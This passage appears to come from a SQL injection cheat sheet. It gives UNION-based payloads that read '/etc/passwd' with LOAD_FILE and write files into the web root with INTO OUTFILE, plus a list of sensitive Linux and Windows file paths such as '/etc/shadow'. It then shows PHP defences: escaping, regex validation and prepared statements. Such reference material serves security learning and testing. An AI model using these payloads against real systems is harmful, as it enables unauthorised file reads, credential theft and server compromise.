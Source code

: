 ### File Operations via UNION
```sql
-- Read files
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4-- -

-- Write files
' UNION SELECT 1,'file content',3,4 INTO OUTFILE '/var/www/html/test.txt'-- -
```

## Common File Paths

### Linux Configuration Files
- `/etc/passwd` - User accounts
- `/etc/shadow` - Password hashes
- `/etc/apache2/apache2.conf` - Apache config
- `/etc/nginx/nginx.conf` - Nginx config
- `/var/www/html/` - Default web root

### Windows Configuration Files
- `C:\Windows\System32\drivers\etc\hosts` - Hosts file
- `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config` - IIS config

## Security Functions (PHP)

### Input Sanitization
```php
// Escape special characters
$username = mysqli_real_escape_string($conn, $_POST['username']);

// PostgreSQL equivalent
$username = pg_escape_string($_POST['username']);
```

### Input Validation
```php
// Regex validation example
$pattern = "/^[A-Za-z\s]+$/";
if(!preg_match($pattern, $input)) {
    die("Invalid input!");
}
```

### Parameterized Queries
```php
// Prepared statements
$query = "SELECT * FROM users WHERE username=? AND password=?";
$stmt = mysqli_prepare($conn, $query);
mysqli_stmt_bind_param($stmt, 'ss', $username, $password);
mysqli_stmt_execute($stmt);
```
